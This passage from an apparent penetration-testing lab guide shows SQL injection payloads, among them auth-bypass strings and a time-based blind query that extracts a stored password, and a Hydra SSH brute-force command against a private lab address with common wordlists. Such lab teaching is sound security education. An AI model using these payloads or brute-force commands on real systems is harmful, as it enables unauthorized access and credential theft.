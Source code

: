 ### 4.4 Alternate techniques
- `admin' --`  
- `' OR '1'='1`  
- `UNION SELECT` for pages that return query results (only use read-only tests).

### 4.5 Blind SQLi (time-based)
If the app doesn't show DB output, use time-based payloads to infer data:
```sql
' OR IF(SUBSTRING((SELECT password FROM users LIMIT 1),1,1)='a',SLEEP(5),0)--
```

A measurable delay indicates the condition evaluated true.

**Important:** Stay non-destructive, document findings, and revert the VM snapshot if necessary.

---

## 5) SSH Brute‑Force (demo using Hydra)
**Goal:** Show how weak credentials are easily discovered and why rate-limiting / MFA is necessary.

### 5.1 Wordlists on Kali
Useful wordlists:
```swift
/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt    
/usr/share/wordlists/seclists/Passwords/Common-Credentials/2020-200_most_used_passwords.txt
```

### 5.2 Run Hydra (lab example target `192.168.1.117`)
Example command (adjust target IP):
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/2024-197_most_used_passwords.txt ssh://192.168.1.117 -t 4
```
![Hydra Input Command](screenshots/ssh-1.png)  

Parameters:
- `-L` username list  
- `-P` password list  
- `-t` parallel tasks (threads)

### 5.3 Interpreting results
- Hydra prints matches like `admin:P@ssw0rd` if found.  
- Use `ssh admin@192.168.1.117` to log in with discovered credentials (lab only).
